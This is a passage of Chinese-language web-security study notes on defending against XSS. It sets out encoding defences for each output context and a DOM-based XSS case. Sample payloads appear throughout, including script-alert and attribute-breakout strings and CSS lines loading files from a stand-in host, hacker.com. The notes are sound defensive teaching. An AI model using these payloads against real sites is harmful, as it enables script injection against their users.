```

       * 在HTML标签中输出，使用HtmlEncode防御。
     
          ```
    <div>$var</div>
    XSS为
    <div><scirpt>alert(/xss/)</script><div>
    ```
       * 在HTML属性中输出，使用HtmlEncode防御。
   
          ```
    <div id="abc" name="$var"></div>
    XSS为
    <div id="abc" name=""><script>alert(/xss/)</script><""></div>
    ```
       * 在<script\>标签中输出，使用JavascriptEncode防御。
 
          ```
    <script> var x = "$var"</script>;
    XSS为
    <script> var x = ""; alert(/xss/); //";
    ```
       * 在事件中输出，使用JavascriptEncode防御。
 
          ```
    <a href=# onclick="funcA('$var')">test</a>
    XSS为
    <a href=# onclick="funcA('');alert(/xss/);//')">test</a>
    ```
       * 在CSS中输出，使用OWASP ESAPI中的EncodeForCSS防御。使用sytle、style attribute形成XSS的方式非常多，给出几种例子。
 
          ```
    <style>@import'http://hacker.com/xss.css';</style>
    <style>Body{-moz-binding:url("http://hacker.com/xssmoz.xml#xss")}</style>
    <xss style="behavior:url(xss.htc);">
    <style>li {list-style-image: url("javascript:alert('XSS')");}</style><ul><li>XSS
    <div style="vackground-image: url(javascript:alert('XSS'))">
    <div style="width: expression(alert('XSS'));">
    ```
       * 在地址中输出，使用URLEncode防御。当地址被控制了以后，使用一些特殊的伪协议可以导致脚本执行，如**dataURI**伪协议。
 
    5. 处理富文本，重要的时要区分哪些是用户真正的输入，哪些是恶意XSS代码。在处理富文本的时候，首先还是回到**输入检查**上，使用**HtmlParser**可以解析出HTML代码的标签，标签属性和时间，然后过滤这些，**事件**应该被严格禁止，有很多危险标签，如iframe、scirpt、base、form等，也是应该禁止的。在标签的选择上，应该使用**白名单**，而不应该使用黑名单，标记哪些标签是安全的才是正确的方法。 

    6. 防御DOM Based XSS，如例子
      
         ```
      <script>
      var x = "$var";
      document.write("<a href='" + x +"'> test </a>");
      </script>
      ```
      在代码上架设为了保护**$var**，服务器使用了javascriptEncode对$var进行了编码，但是当使用document.write时，仍然可以产生XSS，因为在使用document.write时，浏览器重新渲染页面，对$var进行了解码。要解决这个问题，在document.write的时候，做一次判断，如果输入到事件或脚本中，做一个javascriptEncode，如果输入到HTML内容或者属性中，进行一个HTMLEncode。有一幅图说明。
      ![Dom Based XSS](../articleImage/2015-03-02-baimaozijiangwebanquan-dushubiji/doom-based-xss.jpg)
      按着上图的规则去做编码设置，能够触发DOM Based XSS的地方很多，从JavaScript输出到HTML页面的必经之路。
       * document.write()
       * document.writeln()
       * xxx.innerHTML
       * xxx.outerHTML
```